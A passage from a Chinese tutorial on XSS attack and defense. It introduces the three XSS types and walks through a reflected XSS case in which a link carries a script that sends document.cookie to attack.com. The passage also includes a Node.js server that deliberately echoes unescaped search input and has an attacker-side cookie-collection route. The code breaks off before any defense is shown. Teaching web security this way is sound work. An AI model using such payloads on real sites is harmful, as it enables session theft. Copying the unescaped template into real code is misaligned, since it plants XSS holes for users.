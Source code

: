 # XSS 攻防实战

XSS 的全称叫跨站脚本攻击（Cross Site Scripting），攻击出现的原因一般是因为 Web 程序对用户的输入过滤不足导致的一种漏洞，攻击者可以把恶意的脚本代码注入到网页之中，当其他用户浏览时就会执行其中的恶意代码，对受害者产生各种攻击。XSS 一般分为三种类型：

- 反射型
- 存储型
- DOM型

## 反射型 XSS 攻防实战

反射型 XSS 攻击的恶意脚本并没有被存储到后端数据库中，而是诱导用户点击某个精心拼接的恶意链接，从而达到攻击的目的。

### 攻击案例

一个常见的场景是用户在某电影网站搜索，假如请求地址是：

```sh
https://xxx.com/movies?q=功夫熊猫
```

在后台返回的结果页中，会显示用户搜索的电影名：

```sh
「功夫熊猫」的搜索结果为：
xxxxxxxxxxxxxxxxxxxxxxx
```

攻击者拼接了一个极度恶意的链接：

```sh
https://xxx.com/movies?q=功夫熊猫<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

如果用户点击了这个恶意链接，cookie 立马被盗。下面给出 `Node.js` 后端服务完整源码：

```js
const http = require('http')
const URL = require('url')

// HTML 模板
function renderHTML(tpl) {
  return `<!DOCTYPE html><html><head><meta charset="UTF-8"/></head><body>${tpl}</body></html>`
}

// 路由分发器
const routes = {
  'GET /movies': (req, res) => { // 被攻击网站的电影搜索接口
    const tpl = req.query.q
      ? `<h3>「${req.query.q}」的搜索结果为：</h3>${Array(30).fill('x')}`
      : `请输入搜索的电影`
    res.setHeader('Set-Cookie', ['name=keliq', 'age=10'])
    res.end(renderHTML(tpl))
  },
  'GET /cookies': (req, res) => { // 攻击者后台收集cookie的接口
    console.log(req.query)
    res.end()
  },
}

function onRequest(req, res) {
  const { url, method } = req
  const { query, pathname } = URL.parse(url, true) // 解析 url
  Object.assign(req, { query, path: pathname }) // 并把 query 和 pathname 参数扩展到 req 对象
  const route = routes[[method, pathname].join(' ')] // 获取路由处理函数（策略模式）
  if (route) return route(req, res)
  res.statusCode = 404
```

[dom-based]: https://www.netsparker.com/blog/web-security/dom-based-cross-site-scripting-vulnerability
[xss]: https://www.netsparker.com/blog/web-security/cross-site-scripting-xss
[innerHTML]: https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML
[DOMPurify]: https://github.com/cure53/DOMPurify